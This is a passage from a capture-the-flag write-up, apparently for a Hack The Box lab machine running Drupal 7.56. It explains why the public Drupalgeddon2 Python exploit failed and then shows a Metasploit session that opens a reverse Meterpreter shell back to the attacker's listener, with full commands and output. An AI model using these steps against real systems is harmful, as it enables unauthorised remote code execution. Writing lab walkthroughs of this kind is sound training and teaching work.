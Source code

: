 Since we are targeting version 7.56 and have no admin panel access, we can rule out many of these exploits. It seems the "Drupalgeddon2" exploits fit our machine. Luckily for us, there is a Metasploit module, and a Python exploit. I try to avoid Metasploit due to OSCP requirements, so went with the Python exploit. 

I mirrored `php/webapps/44448.py`, and then tidied up the script while trying to get it to work. No luck! The exploit works by targeting the user registration function. I ran the requests through Burp and noticed the request was completely different from the normal user registration request I got when attempting to sign up.

Intercepted request from the Python script:

![Intercepted request from the Python script](screenshots/80_exploit_script.png)

Intercepted request from an actual registration attempt on Armageddon:

![Intercepted request from a registration attempt](screenshots/80_exploit_actual.png)

Notice how the request URL is different, and the actual registration uses a multipart form. At this point, I tried out the Metasploit module to see if it worked...

```none
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.10.10.233
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LOST 10.10.14.10
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.233:33788) at 2021-07-26 10:39:08 +1200

meterpreter >
```
